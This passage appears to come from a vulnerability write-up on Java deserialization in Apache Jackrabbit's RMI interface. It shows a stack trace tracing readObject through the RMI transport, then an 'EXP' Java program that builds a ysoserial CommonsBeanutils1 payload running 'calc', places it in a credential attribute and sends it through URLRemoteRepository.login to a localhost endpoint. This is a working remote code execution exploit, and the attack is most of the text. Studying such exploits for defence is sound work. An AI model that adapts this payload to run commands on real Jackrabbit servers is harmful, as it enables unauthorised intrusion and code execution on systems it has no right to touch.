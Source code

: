 ```plain
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
unmarshalValue:326, UnicastRef (sun.rmi.server)
dispatch:308, UnicastServerRef (sun.rmi.server)
run:200, Transport$1 (sun.rmi.transport)
run:197, Transport$1 (sun.rmi.transport)
doPrivileged:-1, AccessController (java.security)
serviceCall:196, Transport (sun.rmi.transport)
handleMessages:568, TCPTransport (sun.rmi.transport.tcp)
run0:826, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
lambda$run$256:683, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
run:-1, 565051120 (sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$23)
doPrivileged:-1, AccessController (java.security)
run:682, TCPTransport$ConnectionHandler (sun.rmi.transport.tcp)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:745, Thread (java.lang)
```

## EXP

```plain
package org.example;

import org.apache.jackrabbit.rmi.repository.URLRemoteRepository;
import ysoserial.payloads.ObjectPayload;

import javax.jcr.SimpleCredentials;


public class App
{
    public static void main( String[] args ) throws Exception {
        Class<? extends ObjectPayload> payloadClass = ObjectPayload.Utils.getPayloadClass("CommonsBeanutils1");
        ObjectPayload payload = (ObjectPayload)payloadClass.newInstance();
        Object object = payload.getObject("calc");

        SimpleCredentials simpleCredentials = new SimpleCredentials("admin", "admin".toCharArray());
        simpleCredentials.setAttribute("admin", object);

        URLRemoteRepository repository = new URLRemoteRepository("http://localhost:8090/jackrabbit_webapp_war_exploded/rmi");
        repository.login(simpleCredentials);
    }
}
```
